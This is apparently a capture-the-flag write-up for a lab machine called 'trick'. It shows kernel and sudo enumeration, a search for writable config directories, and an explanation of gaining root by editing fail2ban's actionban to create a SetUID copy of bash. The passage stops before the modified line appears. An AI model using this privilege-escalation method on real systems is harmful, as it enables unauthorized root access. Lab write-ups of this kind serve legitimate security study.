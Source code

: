 ##### Kernel Information
```bash
$ uname -ar
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64 GNU/Linux
```
##### Sudo privileges
```bash
sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

Searching google for `fail2ban sudo privilege escalation` brings many results, however [this](https://juggernaut-sec.com/fail2ban-lpe/) link and [this one as well](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-privilege-escalation/) I found to be the most directly beneficial.


### Shell as root
fail2ban is an intrustion prevention software framework to help stop brute force attacks.

According to the articles above, if we can execute `fail2ban` as root, we can gain access to privileges by modifying the configuration file. We need to check if the config file is writable:

```bash
find /etc -writable -ls 2>/dev/null

   269281      4 drwxrwx---   2 root     security     4096 May 10 23:30 /etc/fail2ban/action.d
```

Look inside of `/etc/fail2ban/jail.conf` to know more about how fail2ban is configured.

In this, we can not that `iptables-multiport` is the default actrion to run. The important line is the `actionban` which runs each time an IP hits the defined threshold.


To get root, all we need to do is modify the `actionban` action in `/etc/fail2ban/action.d/iptables-multipath.conf` to make a copy of `bash` and set the SetUID which we can use to start a new bash shell with the privileges of the `root` user:
```
